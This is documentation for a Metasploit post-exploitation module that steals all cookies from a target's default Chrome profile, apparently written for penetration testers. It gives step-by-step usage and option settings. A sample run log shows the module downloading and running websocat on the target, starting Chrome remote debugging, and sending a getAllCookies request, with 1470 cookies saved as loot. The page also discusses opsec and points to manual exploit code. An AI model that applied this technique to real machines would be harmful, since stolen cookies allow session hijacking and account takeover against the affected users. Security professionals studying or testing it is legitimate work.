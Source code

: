 ## Chrome Gather Cookies

Uses [Headless Chrome](https://developers.google.com/web/updates/2017/04/headless-chrome) and [Chrome's Remote Debugging](https://chromedevtools.github.io/devtools-protocol/) to read all cookies from the Default Chrome profile of the user.

## Opsec

There are several things this module does which are not considered stealthy.

* Downloads and executes https://github.com/vi/websocat
* Writes to disk (deletes files after use)

The reason for this is that the module needs a way to communicate via the websocket protocol on the target machine, since Remote Debugging is exposed only via a websocket URL. If you don't want to take these opsec risks, and have another way of reading and writing websocket data on the target machine, example Python code for a manual exploit can be found at https://github.com/defaultnamehere/cookie_crimes.


## Vulnerable Application

This technique works on Chrome 59 or later on all operating systems. Note that this module does not yet support Windows, only Linux and macOS.

Chrome does not need to be running on the target machine for this module to work.

## Verification Steps

  1. Obtain a session on the target machine
  2. Do: ```use post/chrome/gather/cookies```
  3. Do: ```set SESSION <your session ID>```
  4. Do: ```run```
  5. The current user's Chrome cookies will be stored as loot

## Options

  **HEADLESS_URL**

  When Headless Chrome is opened, it needs a URL to browse to. The default is "about://blank" (an empty page in Chrome), but if you change this option, the target Chrome will make a fully authenticated request to the URL. This can be combined with Chrome's `--dump-dom` flag to print the HTML source of an authenticated HTTP request to the console.

  **CHROME_BINARY_PATH**

  The path to the user's Chrome binary. On Linux this defaults to searching for `google-chrome` in `$PATH`. On macOS, this defaults to `/Applications/Google Chrome.app/Contents/MacOS/Google Chrome'`. If the module doesn't find any cookies, it may be that a different Chrome binary to the one the user normally uses is being run. In that case, you can change the Chrome binary executed with this option.

  **WEBSOCAT_STORAGE_PATH**

  Where to store the downloaded `websocat`. This module needs to speak the websocket protocol somehow, and `websocat` is used for this. It's stored in `/tmp/websocat` by default.

  **COOKIE_STORAGE_PATH**

  Path of the temporary file used to store cookies.

  Redirection to a file is used because `websocat` streams the data, and can't send cookies larger than 65535 bytes in one message. Streaming breaks metasploit's `cmd_exec` function, and so the cookies can't be read if they're larger than 65535 bytes. The cookies are temporarily written to disk as a workaround.

  **MAX_RETRIES**

  Chrome can take some time to make the `websocketDebuggerUrl` available at `localhost:9222/json`. This option specifies how many times to retry checking for a response from `localhost:9222/json`.

  **REMOTE_DEBUGGING_PORT**
  Port to tell Chrome to expose Remote Debugging on. Default is the normal remote debugging port, `9222`.

## Scenarios

### Linux (or OS X)

  Suppose you've got a session on the target machine.

  To extract the target machine's Chrome cookies

  ```
  msf > use post/chrome/gather/cookies
  msf post(chrome/gather/cookies) > set SESSION <your session ID>

  msf5 post(test/chrome_cookies) > options

  Module options (post/test/chrome_cookies):

     Name                   Current Setting    Required  Description
     ----                   ---------------    --------  -----------
     CHROME_BINARY_PATH                        no        The path to the user's Chrome binary (leave blank to use the default for the OS)
     COOKIE_STORAGE_PATH    /tmp/websocat.log  no        Where to write the retrieved cookies temporarily
     HEADLESS_URL           about://blank      no        The URL to load with the user's headless chrome
     MAX_RETRIES            3                  no        Max retries for websocket request to Chrome remote debugging URL.
     REMOTE_DEBUGGING_PORT  9222               no        Port on target machine to use for remote debugging protocol
     SESSION                1                  yes       The session to run this module on.
     WEBSOCAT_STORAGE_PATH  /tmp/websocat      no        Where to write the websocat binary temporarily while it is used

  msf post(chrome/gather/cookies) > run

  [*] Activated Chrome's Remote Debugging via google-chrome --headless --user-data-dir="/home/target_username/.config/google-chrome/" --remote-debugging-port=9222 about://blank
  [!] Writing file /tmp/websocat to disk temporarily
  [*] Downloading https://github.com/vi/websocat/releases/download/v1.2.0/websocat_nossl_i386-linux to /tmp/websocat
  [!] Writing file /tmp/websocat.log to disk temporarily
  [-] Error running echo '{"id": 1, "method": "Network.getAllCookies"}' | /tmp/websocat -q ws://localhost:9222/devtools/page/2BB6CD14146BFB67C4523D85A348508 > /tmp/websocat.log
  [-] /bin/sh: 1: /tmp/websocat: Text file busy
  [-] No data read from websocket debugger url ws://localhost:9222/devtools/page/2BB6CD14146BFB67C4523D85A348508. Retrying... (Retries left: 2)
  [!] Writing file /tmp/websocat.log to disk temporarily
  [+] Read 1470 cookies from ws://localhost:9222/devtools/page/2BB6CD14146BFB67C4523D85A348508
  [*] Deleted /tmp/websocat
  [*] Deleted /tmp/websocat.log
  [+] Chrome Cookies stored in /home/your_username/.msf4/loot/20181203153956_default_127.0.0.1_chrome.gather.co_192519.txt
  [*] Post module execution completed
  ```
  In this example, a race condition occurred between writing the websocat binary and executing it. The module caught this and retried so it can continue gracefully.


## Future features

### Windows support
This technique works on Windows as well, this module just doesn't implement the Windows-specific functionality (the use of `websocat` to speak the websocket protocol, for example).

### Profiles
This module only extracts cookies from the default Chrome profile. The target may have multiple, and you may which to extract cookies from all of them. This would require enumerating and extracting the profiles by name. Example code to extract cookies from a non-default Chrome profile can be found at https://github.com/defaultnamehere/cookie_crimes.

## See also
See https://github.com/defaultnamehere/cookie_crimes for more information and manual instructions for Windows.

See https://mango.pdf.zone/stealing-chrome-cookies-without-a-password for the blog post in which this technique was first published.


